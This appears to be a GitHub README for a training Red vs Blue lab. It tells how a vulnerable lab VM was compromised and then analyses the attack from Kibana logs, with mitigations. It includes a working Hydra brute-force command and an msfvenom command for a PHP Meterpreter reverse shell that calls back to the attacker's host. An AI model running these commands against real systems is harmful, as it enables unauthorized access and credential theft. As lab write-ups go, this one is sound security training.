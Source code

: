 # Red_Vs_Blue-Project
The assessment, analysis, and hardening of a vulnerable system from the red and blue persepctive.

# Scenario

Assuming the role of both pentester (The Red Team) and SOC analyst (The Blue team), The Red Team will attack a vulnerable Capstone virtual machine, ultimately gaining root access to the machine. As Blue Team, Kibana logs will be reviewed during the Day 1 engagement. The logs will be used to extract hard data and visualizations. Log data will be interpreted for mitigation measures for each exploit that was successfully performed.

# Network Topology

|  IP Address   |       Machine       |
|:-------------:|:-------------------:|
|  192.168.1.1  |       Hyper-V       |
|  192.168.1.90 |         Kali        |
| 192.168.1.100 | Elastic Stack (ELK) |
| 192.168.1.105 |       Capstone      |

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/d376cac01957cbf835b0715394d88edb26bec282/Images/Project%202%20-%20Network%20Diagram.jpg)

# Red Team - Penetration Test

1. Using NetDiscover, Nmap and a simple ifconfig command, the IP address of the Linux web server was uncovered. The IP address is **192.168.1.105**. 

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/5ebd395fc5e24f73acfa663b82b8f98cd51502ce/Images/Screenshot%202021-11-04%20205454.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/5ebd395fc5e24f73acfa663b82b8f98cd51502ce/Images/Screenshot%202021-11-04%20205453.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/5ebd395fc5e24f73acfa663b82b8f98cd51502ce/Images/Screenshot%202021-11-06%20112341.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/5ebd395fc5e24f73acfa663b82b8f98cd51502ce/Images/Screenshot%202021-11-06%20112533.png)

In the above image, port 22 and port 80 are exposed.

2. A browser was opened and then navigated to the IP address that was discovered. A web server with a list of directories was displayed. After performing a cursory research into each directory, there was mention of a "secret folder" that proved to be a point of interest. 

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/775e4bddce20634c247b0dc21a4d30fefb18d59e/Images/Screenshot%202021-11-06%20113607.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/775e4bddce20634c247b0dc21a4d30fefb18d59e/Images/Screenshot%202021-11-06%20114044.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/775e4bddce20634c247b0dc21a4d30fefb18d59e/Images/Screenshot%202021-11-06%20113801.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/775e4bddce20634c247b0dc21a4d30fefb18d59e/Images/Screenshot%202021-11-06%20114329.png)

3. After navigating to the secrect folder directory by typing http://192.168.1.105/company_folders/secret_folder/, there was a road block. Credentials were needed. A login screen pops up and states "For Ashton's eyes only". More research into the "meet_our_team" directory was done to find out more information on Ashton.

Unfortunately, no further information was found on Ashton and brute forcing would have to be the next option. Hydra was used to retrieve Ashton's password using the command:

**_hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder -t 40_**

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/f7fe5da82c489111f87e4dde35b77319200cfc02/Images/hydra%20scan.jpg)

4. Logging into the "secret folder" was successful! Once logged in, a lone file called "connect_to_corp_server" was discovered. Inside the file was a set of intructions on how to connect to the company's WebDAV server, along with a user named Ryan and a password MD5 hash. With the help of crackstation.net, Ryan's password was cracked.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/e2c36d9e7eb7beaefd8b154e2cc1eee4164c58de/Images/Screenshot%202021-11-06%20124857.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/e2c36d9e7eb7beaefd8b154e2cc1eee4164c58de/Images/Screenshot%202021-11-06%20125023.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/e2c36d9e7eb7beaefd8b154e2cc1eee4164c58de/Images/Screenshot%202021-11-06%20125348.png)

5. The directions in the "connect_to_corp_server" file were followed in order to gain access to the WebDAV server with Ryan's credentials. The WebDAV had unrestricted upload permissions. A payload using MSFVenom was created in order to create a PHP reverse shell using the command:

**_msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw -o shell.php_**

It was then uploaded into the WebDAV directory.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/e2c36d9e7eb7beaefd8b154e2cc1eee4164c58de/Images/Screenshot%202021-11-06%20140046.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/f5f5c6f20dd6630abaa687035b0e25f682133603/Images/Screenshot%202021-11-06%20141644.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/f5f5c6f20dd6630abaa687035b0e25f682133603/Images/Screenshot%202021-11-09%20192302.png)

6. A listener in Metasploit was deployed. Soon after the playload was lauched, and lastly a Meterpreter session was accessed.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/f5f5c6f20dd6630abaa687035b0e25f682133603/Images/Screenshot%202021-11-09%20200616.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/4e28a3a131aef17e23ccd59671f184e0ff509ea1/Images/Screenshot%202021-11-11%20200617.jpg)

7. Once a shell was created and entered, the target file was located and a flag was found.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/50f24246cd5f1cfe8f8fb4a20335882dabde69dd/Images/Flag.jpg)

## Blue Team - Analysis of Attack ##

With the Red Team attack complete, It is now time to switch sides to the Blue team and anaylze the attack. Elastic Stack (ELK - 192.168.1.100) was used to send data and logs to Kibana. Filebeat, metricbeat, and packetbeat were installed prior on the target machine to perform an analysis of the attack. Indicators of attack will also be studied.

The first indicator of the attack was a port scan that bagan on **November 6th, 2021**. 11,238 packets were sent from 192.168.1.90 (the attack machine)

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/39eaf44b7769274d99a60fdd67c4bfc06083c78a/Images/Day2/Screenshot%202021-11-11%20212258.png)

This is what was sent back:

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/fc199d4c763726196340f5835d465054b99cef88/Images/Day2/Screenshot%202021-11-13%20103402.png)

The data shown in the above image is concerning due to the fact that there is a spike in activity on **November 6th, 2021** and also the amount of errors codes that resulted. This can be a clear indication of a brute force attack. The result of trying different credentials over and over would create a large amount of 401 error codes, showcased by the spike in activity on the chart. According to the _status_ and _http.response.status_code_ fields on the left of the image above, The records are mostly 401 and 207 errors. The 401 errors could be a result of a brute force attack, while the 207 errors indicate that a request has succeeded. This means a brute force attack was launched and successful.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/c8d1430d6a213328d304badefa4f119f98b36efc/Images/Day2/Screenshot%202021-11-13%20115505.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/c8d1430d6a213328d304badefa4f119f98b36efc/Images/Day2/Screenshot%202021-11-13%20120213.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/c8d1430d6a213328d304badefa4f119f98b36efc/Images/Day2/Screenshot%202021-11-13%20131059.png)

The images above are screenshots of the attacker accessing http://192.168.1.105/company_folders/secret_folder and http://192.168.1.105/company_folders/secret_folder/connect_to_corp_server. The user agent for these attacks was Mozilla/4.0 (Hydra) which is a brute force attack tool. 224 requests were made to the hidden directory at 4pm the same day. 

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/c8d1430d6a213328d304badefa4f119f98b36efc/Images/Day2/Screenshot%202021-11-13%20124152.png)

The file that was requested was a _doc file. This file contained instructions on how to add and access the webdav network server.

It was also discovered that the WebDAV directory was accessed from IP address 192.168.1.90. The attacker uploaded and accessed multiple files in the directory.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/67becebda91a9514764ba172186237cdb12b3a07/Images/Day2/Screenshot%202021-11-13%20134817.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/67becebda91a9514764ba172186237cdb12b3a07/Images/Day2/Screenshot%202021-11-13%20114144.png)

## Vulnerabilities & Mitigation ##

After discovering multiple vulnerabilities on the target VM, here are so mitigation strategies to help defend agasint further attacks in the future.

**Preventing Brute Force Attacks**

Mitigation:

- An alarm should be set to limit how many attempts can be made when entering a password before the user is locked out. 
   - The threshold should be set very low to deter threat actors, for example, 5 attempts.
   - After 5 attempts, the user will be permanently locked out until and administrator can be contacted.
   - Weak passwords is the root of this attack.
   - Since some of the users of the company have such weak password, password requirements should be put in place.
   - Two factor authentication, complex passwords (8 or more characters, special characters, numbers, contains no English words and case sensitive) and changing passwords once a month would be additional ways to mitigate attacks.

**Blocking the Port Scan**

Mitigation:

- Set an alarm that alerts of a high number of port scans through a firewall
  - An email should be sent to administrators when more then 10 port scans are done within a minute.
  - Only traffic from certain ports should be allowed; such as, port 80 and 443 to allow traffic from the internet. 

**Finding the Request for the Hidden Directory**

Mitigation:

- Set an alarm that sends an email alert for higher than normal traffic and unauthorized IPs accessing the secret folder.
  - No more than 4 attempts to access the folder should be made.
  - Only allow authorized IPs to have access to the secret folder as a whitelist. Also, encrypt any sensitive data and folders.
_/etc/httpd/conf/httpd.conf_ is where a whitelist can be made.

**Detecting the WebDAV Connection**

Mitigation:

- An alarm can be set to monitor traffic and connection attempts from unauthorized IPs to the webdav network.
  - The unauthorized user will only have 1 attempt.
  - Blocking traffic from unauthorized IPs with a whitelist or group policy
  - Also, more complex passwords (8 or more characters, special characters, numbers, containing no English words and case sensitive) should be implemented to avoid brute force attacks.

**Identifying Reverse Shell Uploads**

Mitigation:

- Create an alarm to alert when a file is being upload to the webdav folder, whether it is malicious or not. Another alarm should be made when port 4444 is being connected to.
  - Alerts should be immediate!
  - Access to the webdav folder should be set to “ready only”. Also, only authorized IPs should have access to the webdav folder.


